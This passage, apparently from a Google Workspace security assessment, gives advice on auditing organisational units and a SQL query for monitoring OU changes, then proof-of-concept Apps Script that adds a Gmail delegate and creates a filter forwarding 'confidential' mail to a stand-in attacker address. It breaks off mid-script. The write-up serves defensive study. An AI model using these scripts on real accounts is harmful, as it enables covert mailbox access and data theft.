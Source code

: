 3. **Regular OU Security Audits:**
   - Create a comprehensive OU security baseline
   - Regularly audit settings and inheritance across OUs
   - Implement automated checks for security inconsistencies
   - Document intended security boundaries and validate implementation

4. **OU Change Monitoring:**
```sql
-- Sample monitoring query for OU changes
SELECT admin_email, event_type, target_ou, affected_user_email, timestamp
FROM admin_audit_logs
WHERE event_type IN ('OU_MOVE', 'OU_SETTING_CHANGE', 'OU_CREATE')
  AND timestamp > TIMESTAMP_SUB(CURRENT_TIMESTAMP(), INTERVAL 7 DAY)
ORDER BY timestamp DESC
```

## 6. Gmail Filter and Delegation Abuse

### Vulnerability: Mail Delegation and Filter Exploitation

**Description:**  
Gmail delegation features and mail filters can be exploited to create persistence mechanisms and data exfiltration channels.

#### Proof-of-Concept Exploitation:

**1. Mail Delegation Exploitation:**

When an organization allows Gmail delegation without proper controls:

```javascript
// Google Apps Script to exploit mail delegation
function setupMailDelegation() {
  try {
    // Attempt to grant delegation access
    Gmail.Users.Settings.Delegates.create(
      {
        'delegateEmail': 'attacker@example.com',
        'verificationStatus': 'accepted'
      },
      'me'
    );
    console.log('Delegation added successfully');
    return true;
  } catch (e) {
    console.log('Failed to add delegation: ' + e.message);
    return false;
  }
}
```

**2. Covert Mail Filter Creation:**

```javascript
// Google Apps Script to create covert mail filter for BCC exfiltration
function createCovertMailFilter() {
  try {
    // Create a filter that forwards specific emails
    Gmail.Users.Settings.Filters.create({
      'criteria': {
        'from': '*', // All incoming mails
        'subject': 'confidential' // Target sensitive emails
      },
      'action': {
        'addLabelIds': ['INBOX'],
        'forward': 'attacker-controlled@example.com'
      }
```